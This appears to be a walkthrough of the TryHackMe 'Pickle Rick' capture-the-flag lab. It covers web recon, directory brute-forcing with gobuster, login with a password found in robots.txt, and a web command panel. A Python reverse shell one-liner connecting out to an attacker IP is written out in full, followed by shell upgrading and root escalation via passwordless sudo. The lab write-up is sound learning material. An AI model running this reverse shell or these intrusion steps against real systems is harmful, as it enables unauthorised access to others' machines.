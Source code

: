 # rickMortyCTF_THM [Pickle Rick]

## Inital Recon


- An IP was given to us. When we visit “[http://10.201.15.**/](http://10.201.15.57/)”. [Change the IP according to what was given to you]. We land on a page.

![image.png](rickMortyCTF_THM%202593c5d54c7680619bf4df15500d0d7f/image.png)

- Thoughts →
    - There is a single picture in the website which we can further analyze.
    - Reading the text, we get the hint that we have to run the request for this web page through burp.
    - There might be some kind of brute force login.
- I did not find anything unusual so decided to check the /robots.txt once.
- In /robots.txt , we get
    
    ```python
    Wubbalubbadubdub
    ```
    
- Let’s brute force the directory in the meantime while checking the burp suite response and request.
- Burp Request we got
    
    ```python
    GET / HTTP/1.1
    Host: 10.201.15.57
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    If-Modified-Since: Sun, 10 Feb 2019 16:37:33 GMT
    If-None-Match: "426-5818ccf125686-gzip"
    Priority: u=0, i
    ```
    
- Checking the response
    
    ![VirtualBoxVM_I80C7bvvMH.png](rickMortyCTF_THM%202593c5d54c7680619bf4df15500d0d7f/VirtualBoxVM_I80C7bvvMH.png)
    
    - Found this in the response.
    - You could have also gotten this in simple inspection.
    - But I found it like this.
- Now we do a Nmap scan on the target and get
    
    ```python
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 95:3e:91:e0:7b:06:9c:da:64:e3:3f:65:58:c8:31:d3 (RSA)
    |   256 77:40:81:69:4f:2f:fd:df:64:f4:66:12:e4:4c:69:f4 (ECDSA)
    |_  256 9b:b9:4a:4a:85:57:eb:b1:a8:5d:6b:50:24:05:bf:71 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Rick is sup4r cool
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    
    - This suggests that there is an open ssh connection which we may try to exploit or brute force as suggested earlier.
    - After checking, I found that there was no exploit found in that.
- Directory bruteforcing the url we get,
    
    ```python
    gobuster dir -u http://10.201.15.57 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 30
    ```
    
    ![VirtualBoxVM_3S0dAESWnK.png](rickMortyCTF_THM%202593c5d54c7680619bf4df15500d0d7f/VirtualBoxVM_3S0dAESWnK.png)
    
    ![VirtualBoxVM_zb0U5cdMUW.png](rickMortyCTF_THM%202593c5d54c7680619bf4df15500d0d7f/VirtualBoxVM_zb0U5cdMUW.png)
    

## Exploiting

- Till this point we have the username and the probable password “Wubbalubbadubdub”.
- Testing out them at /login.php they work..
- I get a commands tab where i can input commands
    - When i input “ls” command it works fine but it does not work “cat Sup….txt”. It says command execution disabled. Hence, we might have to use a reverse shell here.
- Then i check if python is present , It returned no result
- I check the same for python3 and it gives a version output
- Using the python reverse shell, i create a reverse shell
- Reverse shell used 

    ```python
    python3 -c 'import socket,subprocess,os;
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
        s.connect(("10.10.17.1",1337));
        os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
        p=subprocess.call(["/bin/sh","-i"]);'
    ```

- In the reverse shell, I first upgrade the shell using the command
    
    ```python
    /usr/bin/script -qc /bin/bash /dev/null
    export TERM=xterm #to change the terminal emulator
    ```
    
- This basically creates a new upgraded shell
- The First ingredient can be found in the “Sup3rS3cretPickl3Ingred.txt”
    - mr. me**{redacted}
- Using the clue, the other ingredient can be found in folders of user “rick”
    - 1 jer***{redacted}
- For the third ingredient we have to do privelege escalation.
- Running the command sudo -l to list priveleges
- We see that there is “no passwd”.
- So, doing “sudo su”, we escalate our priveleges, get into the root directory and get the last ingredient
    - flee****{redacted}